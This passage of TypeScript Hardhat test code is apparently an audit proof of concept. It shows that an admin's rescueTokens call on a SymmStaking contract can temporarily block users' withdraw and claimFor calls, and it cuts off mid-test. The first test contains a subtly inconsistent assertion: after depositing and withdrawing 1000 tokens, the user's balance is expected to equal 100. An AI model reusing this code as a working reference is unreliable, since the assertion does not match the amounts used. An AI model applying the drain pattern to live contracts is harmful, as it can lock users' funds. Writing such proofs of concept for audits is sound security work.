 ```typescript
			const depositAmount = e("1000")
	
			// 1. Users deposit staking tokens
			await stakingToken.connect(user1).approve(await symmStaking.getAddress(), depositAmount)
			await symmStaking.connect(user1).deposit(depositAmount, user1.address)
	
			// 2. Admin rescues staking tokens
			await symmStaking.connect(admin).rescueTokens(stakingToken.getAddress(), depositAmount, admin.address)
	
			// 3. User tries to withdraw - should fail
			await expect(
				symmStaking.connect(user1).withdraw(depositAmount, user1.address)
			).to.be.revertedWith("ERC20: transfer amount exceeds balance")
	
			// 4. Return funds to prove DOS is temporary
			await stakingToken.connect(admin).transfer(await symmStaking.getAddress(), depositAmount)
	
			// 5. User can now withdraw successfully
			await symmStaking.connect(user1).withdraw(depositAmount, user1.address)
			expect(await stakingToken.balanceOf(user1.address)).to.equal(e("100"))
		});

		it("POC: RescueToken can cause temporary DOS of claimFor", async function () {
			// Initial Setup
			const depositAmount = e("1000")
			const rewardAmount = e("1000")
	
			// 1. User1 deposits tokens
			await stakingToken.connect(user1).approve(await symmStaking.getAddress(), depositAmount)
			await symmStaking.connect(user1).deposit(depositAmount, user1.address)
	
			// 2. Setup rewards
			await usdtToken.connect(admin).approve(await symmStaking.getAddress(), rewardAmount)
			await symmStaking.connect(admin).configureRewardToken(await usdtToken.getAddress(), true)
			await symmStaking.connect(admin).notifyRewardAmount([await usdtToken.getAddress()], [rewardAmount])
	
			// 3. Wait for rewards to accumulate
			await time.increase(604800) // 1 week
	
			// 4. Calculate earned rewards
			const earnedBefore = await symmStaking.earned(user1.address, await usdtToken.getAddress())
			console.log("Earned rewards before rescue:", earnedBefore.toString())
	
			// 5. Admin rescues all USDT rewards
			const rescueAmount = rewardAmount
			await symmStaking.connect(admin).rescueTokens(await usdtToken.getAddress(), rescueAmount, admin.address)
	
			// 6. Admin tries to claim rewards for user1 - should fail
			await expect(
				symmStaking.connect(admin).claimFor(user1.address)
			).to.be.revertedWith("ERC20: transfer amount exceeds balance")
	
			// Storage state after DOS
			console.log("Contract USDT balance after rescue:", 
				(await usdtToken.balanceOf(await symmStaking.getAddress())).toString())
```